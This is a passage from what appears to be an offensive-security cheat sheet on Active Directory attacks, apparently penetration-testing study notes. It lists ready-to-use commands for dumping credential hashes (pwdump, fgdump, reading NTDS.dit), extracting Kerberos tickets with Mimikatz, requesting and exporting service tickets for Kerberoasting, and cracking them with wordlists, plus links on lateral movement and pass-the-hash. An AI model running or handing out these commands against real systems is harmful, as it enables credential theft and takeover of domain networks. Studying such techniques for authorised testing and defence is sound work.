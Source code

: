 Other tools
```powershell
cmd> pwdump.exe localhost
cmd> fgdump.exe localhost          # improved pwdump, shutdown firewalls 
cmd> type C:\Windows\NTDS\NTDS.dit # all domain hashes in NTDS.dit file on the Domain Controller
```

### Dumping Kerberos Tickets

Kerberos authentication uses a ticketing system, where a Ticket Granting Ticket (TGT) is issued by the Domain Controller (with the role of Key Distribution Center (KDC)) and is used to request tickets from the Ticket Granting Service (TGS) for access to resources/systems joined to the domain.
* Hashes are stored in the Local Security Authority Subsystem Service (LSASS).
* LSASS process runs as SYSTEM, so we need SYSTEM / local admin to dump hashes stored on target.

Dumping hashes or Kerberos TGT/TGS tickets with Mimikatz
```
mimikatz > sekurlsa::tickets
```

Service account attacks
* If we know the `serviceprincipalname` value from prior AD enum, we can target the SPN by by requesting a service ticket for it from the Domain Controller and access resources from the service with our own ticket.
```powershell
# request service ticket
PS> Add-Type -AssemblyName System.IdentityModel
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken \
        -ArgumentList '[service_principal_name]'

# export cached tickets
mimikatz > kerberos::list /export
```

Crack SPN hashes
```bash
# Kerberoast
$ python3 tgsrepcrack.py rockyou.txt [ticket.kirbi]  # locally crack hashes
PS> Invoke-Kerberoast.ps1                            # crack hashes on target

# John the Ripper
$ python3 kirbi2john.py -o johncrackfile ticket.kirbi  # convert ticket to john file
$ john --wordlist=rockyou.txt johncrackfile
```


## AD Lateral Movement

Useful Powershell one-liners:
* https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70

Useful lateral movement techniques:
* https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/

Abusing Kerberos using Impacket:
* https://www.hackingarticles.in/abusing-kerberos-using-impacket/
